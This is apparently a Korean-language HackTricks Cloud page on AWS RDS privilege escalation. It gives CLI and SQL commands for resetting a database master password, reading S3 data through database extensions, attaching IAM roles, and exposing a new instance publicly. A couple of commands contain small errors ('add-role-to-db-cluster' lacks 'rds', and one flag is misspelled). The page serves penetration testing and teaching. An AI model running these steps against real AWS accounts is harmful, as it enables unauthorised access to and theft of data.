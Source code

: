 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 통해 공격자는 **마스터 사용자 비밀번호를 수정**하고 데이터베이스 내에서 로그인할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연결할 수 있어야 합니다** (일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면, 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행했을 때 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 있는 것입니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 접근하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장을 확인하여 이를 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 발견하면, 이 데이터베이스가 **S3에 대한 어떤 종류의 접근 권한**을 가지고 있다고 가정할 수 있습니다 (다른 확장자도 있습니다, 예: **`aws_ml`** 및 **`aws_lambda`**).

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면, **`AssociatedRoles`** 필드에서 **클러스터에 연결된 IAM 역할**이 있는지 확인할 수 있습니다. 만약 있다면, 데이터베이스가 **다른 AWS 서비스에 접근할 수 있도록 준비되었다고** 가정할 수 있습니다. **역할의 이름**(또는 역할의 **권한**을 얻을 수 있다면)을 기반으로 데이터베이스가 어떤 추가 접근 권한을 가지고 있는지 **추측**할 수 있습니다.

이제 **버킷 안의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **원시 AWS 자격 증명**이 있다면, 다음과 같이 S3 데이터에 접근할 수 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **은 S3에 접근하기 위해 어떤 파라미터 그룹 변수를 변경할 필요가 없습니다.**
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내부에서 **`SELECT User, Host FROM mysql.user;`** 쿼리를 실행했을 때 **`rdsadmin`**이라는 사용자가 있다면, **AWS RDS mysql db** 내부에 있다고 가정할 수 있습니다.
{% endhint %}

mysql에서 **`show variables;`**를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**와 같은 변수에 값이 있다면, 데이터베이스가 S3 데이터에 접근할 준비가 되어 있다고 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면 클러스터에 **연관된 역할**이 있는지 확인할 수 있으며, 이는 일반적으로 AWS 서비스에 대한 접근을 의미합니다.

이제 **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할을 기존 RDS 인스턴스에 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.\
일부 DB는 추가 구성이 필요하다는 점에 유의하십시오. 예를 들어 Mysql은 매개변수 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 **이미 존재하고 IAM 역할이 연결된 클러스터 내에 새로운 인스턴스**를 생성할 수 있습니다. 그는 마스터 사용자 비밀번호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출할 수 있을지도 모릅니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 연결된 새로운 RDS 인스턴스를 생성할 수 있습니다**. 공격자는 이후 **민감한 데이터에 접근하거나** 인스턴스 내의 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
연결할 역할/인스턴스 프로필의 일부 요구 사항 ( [**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 관련된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터의 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.

{% hint style="warning" %}
DB 인스턴스는 클러스터 외부에 있어야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
